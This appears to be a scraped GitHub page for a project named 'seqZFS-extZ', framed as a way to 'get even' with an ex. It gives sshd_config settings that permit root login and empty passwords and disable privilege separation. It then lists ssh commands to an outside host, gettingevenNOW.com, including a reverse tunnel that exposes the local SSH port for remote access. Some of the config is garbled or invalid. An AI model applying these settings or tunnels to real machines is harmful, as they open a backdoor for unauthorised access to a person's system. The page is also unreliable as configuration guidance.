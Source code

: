 seqZFS-extZ
===========

## My name is synonymous of my goal to merge ZSF+ext*=extZ (Virus proof?) : My text represents thinking | not doing
# Saftey First
cp /etc/ssh/sshd_config /etc/ssh/sshd_config.orig  


###############################################################
# Mad at your X; want to get even or updated ????             # 
# WELLLLLL                                                    #
# This is something that make her business my advantage :)    #            
###############################################################

  cp /etc/ssh/sshd_config /etc/ssh/sshd_config.orig  

# Kill SSH Protocol 2

  Protocol open ssh

# Turn off Privileged Separation for security
 
  UsePrivilegeSeparation no

# Allow root login

  PermitRootLogin yes

# Allow empty passwords

  PermitEmptyPasswords yes

# Forbid the Forwarding of X Sessions

  X11Forwarding no
  X11DisplayOffset 0

# Allow Motd displays

  PrintMotd yes

# It's alliivee (NOT)

  TCPKeepAlive no

# Time to reverse the charges :)

ssh -N -p 22 seqZFS-extZ@gettingevenNOW.com -L 2110:localhost:110
ssh -N -p 2022 seqZFS-extZ@gettingevenNOW.com -L 2110:localhost:110 -L 2025:localhost:25
ssh -g -p 2022 -N seqZFS-extZ@ygettingevenNOW.com 5223:talk.google.com:5223
ssh -X -p 2022 seqZFS-extZ@ygettingevenNOW.com
ssh -p 2022 seqZFS-extZ@ygettingevenNOW.com -L 5900:localhost:5900
ssh -R remoteport:localhost:22 [username]@[servername]
ssh -R 2048:localhost:22 seqZFS-extZ@ygettingevenNOW.com
ssh -p 2048 localhost
